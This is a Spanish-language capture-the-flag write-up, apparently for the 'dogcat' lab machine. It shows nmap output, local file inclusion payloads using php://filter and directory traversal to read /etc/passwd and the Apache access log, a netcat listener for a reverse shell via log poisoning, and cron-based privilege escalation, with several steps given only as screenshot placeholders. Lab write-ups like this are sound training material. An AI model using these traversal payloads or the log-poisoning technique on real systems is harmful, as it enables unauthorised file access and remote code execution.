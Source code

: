 ### Ping
```python
ping -c 1 10.10.183.95
PING 10.10.183.95 (10.10.183.95) 56(84) bytes of data.
64 bytes from 10.10.183.95: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.183.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 251.536/251.536/251.536/0.000 ms
```
###### TTL=63 Maquina Linux

### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.48 seconds
```

| PORT   | STATE | SERVICE | VERSION                                                      |
| ------ | ----- | ------- | ------------------------------------------------------------ |
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.38 ((Debian))                               |
### Enumeración del puerto 80

![[Pasted image 20240228172752.png]]
###### al hacer click en los botones las imagenes y los gatos son aleatorios. tambien tenemos un = por lo que podemos intentar un PATH traversal
![[Pasted image 20240228173259.png]]
###### ok parece que están sanetizando de alguna manera este archivo así que vamos a intentar baypasearlo con una técnica de direcroty traversal 
```python
/?view=php://filter/read=convert.base64-encode/resource=./dog/../index
```
este comando nos ayuda a hacer el llamado al recurso y encodearlo en base64 
![[Pasted image 20240228174008.png]]
###### esta respuesta nos afierma que es vulnerable a esta inyeccion asi que probamos el siguiente
```python
/?view=./dog/../../../../../../../etc/passwd&ext=
```

![[Pasted image 20240228174831.png]]
###### perfecto. miramos el codigo fuente
![[Pasted image 20240228175200.png]]
###### parece que podemos ver el archivo /etc/passwd 
sin embargo no tenemos nungun hash por lo que puedo pensar que tendremos que apuntar al log y envenenarlo(Log Poisoning)

```python
	GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
```
podemos ver el access.log así que tendremos que aplicar la técnica Log Poisoning para envenenar el log de acceso y poder inyectar una reverse shell

### Burpsuite
###### interceptamos la peticion para poder ver la url y envenenamos el log de la siguiente manera
tendremos que inyectar un codigo php URL encode en la variable &cmd para que pueda ser imterpretada por el systema

![[Pasted image 20240228190816.png]]

### nc -lvnp 7890

![[Pasted image 20240228191534.png]]

### Escalada de privilegios 

![[Pasted image 20240228192848.png]]
###### tenemos un archivo backup.sh que parece ser una tarea cron
![[Pasted image 20240228195209.png]]

### WE ARE ROOT

![[Pasted image 20240228195111.png]]